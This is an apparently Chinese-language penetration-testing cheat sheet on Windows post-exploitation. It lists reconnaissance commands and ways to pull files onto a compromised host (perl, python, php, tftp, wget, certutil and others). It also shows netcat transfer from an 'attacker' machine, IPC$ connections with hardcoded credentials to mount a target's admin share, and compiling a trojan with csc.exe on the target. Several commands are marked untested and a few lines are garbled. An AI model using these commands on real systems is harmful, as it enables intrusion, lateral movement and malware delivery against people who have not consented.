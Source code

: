 js和certutil,bitsadmin,vbs



识别英文操作系统名称及版本   

	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

别中文操作系统名称及版本     ```systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"``` 

                           
    OS 名称:          Microsoft Windows 10 旗舰版
    OS 版本:          10.0.14393 N/A Build 14393
    

识别系统体系结构            ```echo %PROCESSOR_ARCHITECTURE% ```

  	AMD64
                           
查看某特定用户信息          ```net user XXX```

查看路由表信息route print

查看ARP缓存信息 arp -A 

查看防火墙规则：

	netstat -ano
	netsh firewall show config
	netsh firewall show state

具体参考[Windows内网渗透提权的几个实用命令](https://www.freebuf.com/articles/system/114731.html)

 

downloader常用方法如下：

	certUtil
	powershell
	csc
	vbs
	JScript
	hta
	bitsadmin
	wget
	debug
	ftp
	ftfp

### perl 下载文件

	perl -MLWP::Simple -e "getstore ('http://www.163.com/','163.html')"

win7测试下载https会报错，提醒我丢失libeay_32.dll，libeay32.dll是OpenSSL所用动态链接库

测试失败 ```perl -MLWP::Simple -e "getstore ('https://raw.githubusercontent.com/3gstudent/test/master/version.txt','163.txt')"```

```perl -e "print 'Hello World \n'"```  

### python 下载文件

	python -c "import urllib2;u=urllib2.urlopen('https://raw.githubusercontent.com/3gstudent/test/master/version.txt');localfile=open('a.txt','w');localfile.write(u.read());localfile.close();"


### ruby 下载

httpdownload.rb 可用ruby 下载 http链接的文件，https暂不知道下载方法  
	
	$ruby httpdownload.rb ```

### php 下载

	<?php
	$data = @file("http://txt.bookdown.net/home/down/txt/id/625");
	#print_r(gettype($data);
	$f = fopen("1.txt", "w");
	fwrite($f, ''.join($data));  # array -> str
	fclose($f);
	?>

### tftp 下载

windows7 下默认是没有tftp的，可以WIN+R，然后输入appwiz.cpl，点击左侧的打开或关闭windows功能后，选中TFTP客户端即可启用TFTP客户端。

(未测试)

```tftp -i host(本地ip,可以是127.0.0.1) GET 1.py(用于保存在本地的文件名) 远程ip\1.py(远程tftp服务器上的文件)```

### wget 下载

	wget http://192.168.43.68:8000/1.py  

cmd默认未安装

### nc

netcat 文件下载(未测试)

攻击者在linux下输入命令

cat file|nc -l 1234
这样把文件file的内容重定向到了攻击者的1234端口，无论谁访问攻击者的ip的这个端口，都能下载到文件了

nc host_ip 1234 > file

## net use

建立IPC$连接

IPC$是Windows系统特有的一项管理功能，是微软公司为了方便用户使用计算机而设计的，主要用来远程管理计算机的。

```net use \\192.168.1.41\ipc$ 123123 /user:Lee```
 
通过建立IPC$连接与远程主机实现通信和控制

下面的操作需要管理员权限，只有管理员能够对他们进行远程操作

```net use x: \\192.168.1.41\e$```

打开“我的电脑”，会发现多出一个x盘，上面写着“C$位于192.168.1.41上”，该磁盘即为目标主机的e盘

net use * /del  断开所有IPC$连接

[IPC连接](https://blog.csdn.net/flyingleo1981/article/details/18763229)

## Notepad 文件下载

这个姿势很神奇。

首先打开notepad，就是我们常说的记事本，点击文件-》打开，在文件名称内输入完整的URL，回车，就会发现记事本中的内容就是我们访问的URL的文本内容。

![](3.png)

## powershell nishang 文件下载

## csc.exe工具直接编写exe

这里我们可以用ExeToText脚本，将想要下载的exe文件转换成txt，在用记事本打开，然后复制其中的内容，通过rdp剪贴板复制到目标机器上的txt文本，再通过TextToExe脚本转换为exe就好了。

在Windows下，c的编译器默认是在C:\Windows\Microsoft.NET\framework\

version的话，不同位数的机器不一样，看情况而定

进入不同版本version文件夹，

C#命令行编辑器csc.exe  将木马的源码写好，直接在目标及其上编译就好了

csc.exe /out:c:\users\pino\evil.exe c:\users\pino\evil.c   (未测试)


## 参考资料

https://www.jianshu.com/p/502441bcebe0   15种下载

